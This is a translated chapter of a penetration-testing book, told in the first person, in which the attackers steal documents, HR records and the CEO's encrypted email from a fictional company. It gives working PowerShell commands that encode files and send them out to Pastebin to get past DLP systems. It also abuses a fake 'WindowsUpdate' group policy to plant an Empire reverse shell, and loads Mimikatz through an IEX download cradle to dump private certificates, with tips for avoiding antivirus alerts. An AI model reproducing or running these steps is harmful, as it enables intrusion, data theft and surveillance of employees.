


# 第五章、数据狩猎

> 炼金术士在寻找金子时发现了许多更有价值的东西。 -- _Earl Derr Biggers_（亚瑟叔本华）

现在我们有了通往王国的钥匙，我们可以完全专注于实现我们“访问”的真正目的:

* 获取商业秘密、人力资源和商业战略文件
* 转储CEO的重要邮件
* 泄露客户记录

## 5.1 数据窃取技术

定位数据很容易，但在不触发所有告警系统的情况下把数据取出来就有点棘手了。假如你尝试将错误的ppt格式文件上传到谷歌硬盘，那么数据防泄漏系统\(DLP\)类的工具就会告警，无论数据多小。我们必须小心。

总之，我们需要一个可靠的战略：

* 毫不费力地获取大数据（千兆字节）；
* 对数据加密以使后续的调查查不到实际采取的措施；
* 找一个绕过防火墙或web代理的可靠方法。

如果我们在一个晚上窃取了50GB的数据，那么流量会有明显增加，之后还让对方查到数据泄露的时间。可能当流量达到一定的阈值，甚至可能会发出警报，这太麻烦了!为了避免任何麻烦，我们将把待窃取的数据分成多个块，并在随机的某小时/某天/某周将数据窃取出去。

假设我们要将 Rachel 的主目录“C:\users\Rachel\documents”数据偷偷传出去。首先，我们使用本地PowerShell 命令对其进行压缩\(适用于Windows 8和Windows 10，但不适用于Windows 7\)

```text
PS> Get-ChildItem C:\users\Rachel\documents | Compress-Archive -DestinationPath c:\users\Rachel\documents.zip
```

提示：要设置一个密码，并在目标机上安装7zip和使用此PowerShell脚本[http://blog.danskingdom.com/powershell-function-to-create-passwordprotectedzip-file。](http://blog.danskingdom.com/powershell-function-to-create-passwordprotectedzip-file。)

然而，窃取此zip文件可能会被 DLP 系统捕获，该DLP系统可以解压缩文件来查找带标签的文档。如果无法解压文件，系统可能会阻止它外传。这就是为什么我们需要添加另一个欺骗手段：即将这个显而易见的zip文件转换成一个普通的旧文本文件，使得它能通过任何DLP系统。

我们可以使用Windows本地命令“certutil -encode”，用base64对压缩的文档进行编码，然后将生成的文本文件发送到一个上传服务器。 不过，Nishang 提供的 Do-Exulation.ps1 \[74\] 工具可以自动执行此操作，节省了几分钟的代码。 该工具有两个主要选项:

* 通过 HTTPS 将数据传输到我们控制的Web服务器。
* 将数据嵌入到发送到我们的 DNS 服务器的 DNS 查询中。这是绕过防火墙规则和代理过滤的一种非常聪明的方法，因为这些防护工具必须允许 DNS 传输。

我们将使用第一个选项，因为它提供了一个有趣的选项，可以直接将数据上传到 Pastebin.com，所以我们不必担心设置web服务器。

我们在 Pastebin 上设置一个帐户，并获得一个API密钥\(以下称为dev\_key\)。然后，我们使用以下命令执行Do- Exfiltering:

```text
PS> C:\users\Rachel> Get-content documents.zip | Do- Exfiltration -ExfilOption pastebin -dev_key 0d19a7649774b35181f0d008f1824435 username paste_user_13 -password paste_password_13
```

如您所见，我们可以直接从PasteBin获取文件。


为了恢复压缩的文档，我们下载了文本文件，然后在 Linux 上使用 base64 命令对其进行解码。 `FrontGun$ cat data.txt | base64 -d > documents.zip`

现在我们知道如何获取数据了,让我们来进一步挖掘一些价值!

## 5.2 战略文件

敏感的商业文件一般存放在如下两个地方:

* 服务器\(有时是工作站\)上的网络共享。
* 用户工作站，通常是VIP、HR、市场营销和会计人员的计算机。

从 10.10.20.118 上的 RDP 会话中，我们可以列出远程服务器上的网络共享，直到我们访问成功！

```bash
>net view \\10.10.20.229 /all
Share name Type Used as Comment

--------------------------------------------
ADMIN$        Disk        Remote Admin 
C$    Disk    Default share 
Common        Disk
ExCom    Disk
IPC$    IPC    Remote IPC
Marketing    Disk
```

PowerView.ps1 \[75\] 使用 Invoke-ShareFinder 提供了相同的选项，该工具查找域中的每个可用主机并列出其共享:

  

提示：我们使用invoke-expression（IEX）加载脚本，以免触发防病毒系统告警。

我们将所需的任何目录复制到我们控制的Windows服务器上，将其压缩并使用前面介绍的技术进行窃取。 通常我们可以得到足够的网络共享数据，使整个公司蒙羞七次，直到星期日。

如果我们想要更进一步，可以针对特定的用户钓鱼和获取信息。要做到这一点，我们需要知道哪些人在公司内部担任关键职位。

我们轻轻向 AD 域查询员工的职位和部门，从而映射整个组织架构。有了特权访问权限，我们可以远程检索他们计算机的任何文件，甚至可以记录按键操作、启用摄像头、获取记录等。我们从 PowerView 执行Get-NetUser 来列出 HR 群组的工作人员：

```text
PS > Get-NetUser -filter "department=HR*"

name    : Juliette 
company        : SPH
description    : Head of HR
department    : HR
lastlogontimestamp    : 12/30/2016 6:25:47 PM
physicaldeliveryofficename : HR department
title    : HR manager
[…]
name    : mark
company    : SPH
department    : HR
displayname    : mark
pwdlastset    : 12/29/2016 9:27:08 PM
[…]
```

提示：我们使用invoke-expression（IEX）加载脚本，以免触发防病毒系统告警。 `PS> Get-AdUser -properties Department -Filter 'department -Like "HR"'` 

我们重复此过程来列出公司内部的所有其他主要群组：ExCom，Marketing，Accounting等。获取用户名后，我们可以通过查找其工作站的 IP/name 来追踪它们。

最可靠的方法是分析域控上成功的网络连接日志。它通常包含用户登录的最后一台计算机。

PowerView 提供了 Invoke-EventHunter 模块来轻松完成此任务： `PS > Invoke-EventHunter -username Juliette` 

`Juliette` 最后一次使用了工作站FRPC066\(10.10.20.66\)。我们尝试远程访问她的工作站的默认共享文件夹，但最终被本地防火墙阻止:

  

没有RDP，也没有RPC端口……基本上无法从我们控制的计算机渗入。但是，我们控制着AD域，所以可以肯定，我们能够解决这些难题。

我们的突破口就是GPO（General Policy Object，通用策略对象）。GPO是在域级别定义的一组设置，用于更改资源配置：设置代理、更改屏幕保护程序，当然还有执行脚本！域内机器会不时从域控拉取GPO配置，这为攻击者绕过防火墙规则提供了便利。如果我们能修改 GPO 配置，插入一个 Powershell 脚本，就可以在 `Juliette` 的机器上拿到一个反弹 shell，从而可以做任何想做的事情。

首先，我们在PowerShell会话中激活并导入可用的组策略模块\(10.10.20.118\):

```text
Ps> Add-WindowsFeature GPMC
Ps> import-module group-policy
```

然后，创建一个名为Windows更新的假GPO（我们以域控制器 FRSV210 为目标）： `PS> New-GPo -name WindowsUpdate -domain SPH.corp -Server FRSV210.sph.corp` 

我们只想针对 Juliette 在计算机 FRPC066 上的账户，所以我们限制了这个GPO的范围:

```text
PS> Set-GPPermissions -Name "WindowsUpdate" - Replace -PermissionLevel GpoApply -TargetName "juliette" -TargetType user
PS> Set-GPPermissions -Name "WindowsUpdate" - Replace -PermissionLevel GpoApply -TargetName "FRPC066" -TargetType computer
PS> Set-GPPermissions -Name "WindowsUpdate" - PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
```

最后，我们将它连接到SPH域来激活它: `PS> New-GPLink -Name WindowsUpdate -Domain sph.corp -Target "dc=sph,dc=corp" -order 1 -enforced yes` 我们返回到 Front Gun 服务器上的 Empire 框架，并生成一个新的反向 Shell 代理，这次将它编码为base64，以便很好地适合注册表项：

```text
(Empire: stager/launcher) > set Listener test
(Empire: stager/launcher) > generate
powershell.exe -NoP -sta -NonI -W Hidden -Enc WwBTAHkAUwB0AGUAbQAuAE4ARQBUAC4AUwBl
```

然后，指示我们创建的 GPO 在下一次 Juliette 的计算机轮询新设置时设置“运行”注册表项。 此注册表项将在 Juliette 的下次登录时执行 PowerShell 代理：

```text
PS> Set-GPRegistryValue -Name "WindowsUpdate" -key "HKEY_CURRENT_USER\Software\Microsoft\Windows
-ValueName MSstart -Type String -value "powershell.exe
-NoP -sta -NonI -Enc WwBTAHk[…]"
```

我们耐心等待，直到最终，我们的反向shell连接成功

  

进入工作站后，我们几乎可以执行如前所述的相同操作来窃取数据。

提示：为了避免引起怀疑，我们将尽快清理GPO策略和注册表项；我们选择修改注册表以执行脚本，但是，如果将RDP发送到域控制器，则可以有更大的选择范围（部署脚本，.msi文件等）。 由于事件日志将记录此交互式会话，因此该方法也不够隐秘。

## 5.3 邮件

### 5.3.1 精准钓鱼（有针对性的方法）

获取特定员工电子邮件的最简单方法是将他们的计算机作为目标\[76\]，然后下载Outlook的缓存文件（email.OST）：

* C:\Users\eric\AppData\Local\Microsoft\Outlook
* C:\Documents and Settings\eric\Local Settings\Application Data\Microsoft\Outlook

首席执行官的电脑不像 Juliette 的那么封闭，所以我们只安装远程共享 \FRPC074\C$，使用域管理凭证并访问他的所有文件。我们复制 eric.blackie@sph- assets.com 的OST文件到我们的 Front Gun 服务器，查看CEO 发送或接收的每一封电子邮件。

然而，当我们使用常规工具打开OST文件时\[77\]，我们无法查看大多数敏感邮件。我们的CEO似乎使用了s/MIME 加密来保护他的邮件。



**s/MIME**

s/MIME 是一种基于公钥基础设施的安全交换电子邮件的标准协议。简单言之，每个用户都有一个公钥和私钥。当用户A向用户B发送电子邮件时，A使用B的公钥对内容进行加密。因为只有用户B拥有可以反加密的私钥，所以只有用户B可以查看电子邮件。

 对于签名，则执行相反的过程。用户A使用自己的私钥对邮件进行签名，由于用户B可以访问A的公钥，所以用户B可以对签名进行反向验证其真实性。 

现在这个方案过于简化，没有涉及混合加密、密钥仪式、密钥交换、证书颁发机构等，因为它们对我们的案例研究来说无关紧要\[78\]。


目前的问题是 Eric 的私钥存储在他的机器上。但是我们不能访问它，即使有管理员权限，因为 Windows 将它标记为“不可导出”……我们该如何处理呢?

mimikatz 再次营救！多么棒的工具！我们在 CEO 的计算机上运行它，以切换内存中的“可导出”位并将所有证书转储到本地文件中。

我们通过 RDP \[79\]登录到CEO的机器上，并准备我们久经考验的脚本：

```text
PS> $browser = New-Object System.Net.WebClient
PS> $browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredential
PS>
IEX($browser.DownloadString("https://raw.githubusercon Mimikatz.ps1"))
PS> invoke-mimikatz -DumpCerts
```


 

我们在 Front Gun 机器上安装证书，然后就可以慢慢欣赏解密后的 CEO 电子邮件了！

### 5.3.2 通用方法

上面的技术很棒，但是在十几个或一百个邮箱中重复执行此操作并不理想。显然，如果每个人都对自己的电子邮件进行加密，那么实际上就没有办法了。幸运的是，很少有人对电子邮件进行加密……我们举了一个极端的例子来说明如何做到这一点，但在现实生活中这种情况很少发生。

为了获取所有人的电子邮件，我们偷偷的地要求本地 Exchange 服务器将存储在其中的每封电子邮件交给我们。由于 Exchange 服务器是域的一部分，因此很容易实现。我们可以使用 MailSniper，这是用 PowerShell 编写的工具，提供了必要的命令来提取和排序电子邮件。在此处查看正在使用的工具\[80\]。

### 5.4 窃取客户数据

总而言之，我们拿到了对 Windows 域的控制权，因此我们对信息系统上存在的每个 Windows 资源都进行了控制。它使我们可以窥探用户并获取他们的电子邮件，HR数据等等。

然而，不管我们怎么努力，都找不到客户记录。这有点烦人!

在 AD 上浏览不同的组织单元\(OU\)和组时，我们注意到一些有趣的事情：一个名为“mainframeAdms”的组。

  

大型机是具有强大处理能力的巨型机。根据型号的不同，RAM可以一直扩展到10TB，具有141个处理器，每个处理器5GHz等。关键是，如果一家公司能买得起大型机，那一般不会用于存储邮件，它最有可能用于托管需要 7\*24 小时全天候可用性的关键业务应用程序。因此，很有可能我们的宝贵客户数据就在那里！

唯一的问题是，这些机器在性能、稳定性和安全性方面享有很高的声誉。有些人甚至声称它们是不可战胜的、不可摧毁的、牢不可破的……你懂的。

在互联网上搜索破解主机的方法，你会对信息的稀缺性感到惊讶。尽管最近几年这一主题的讨论激增\[81\]，但离 Windows 和 Linux 还有很远的距离……

无论如何，我们的目标是窃取客户数据，因此，请做好准备，我们将做一件不可思议的事情：贡献大型主机。


> > 翻译：Regina9Li 2019/10/27
> >
> > 校对：xncoder 2019/11/25

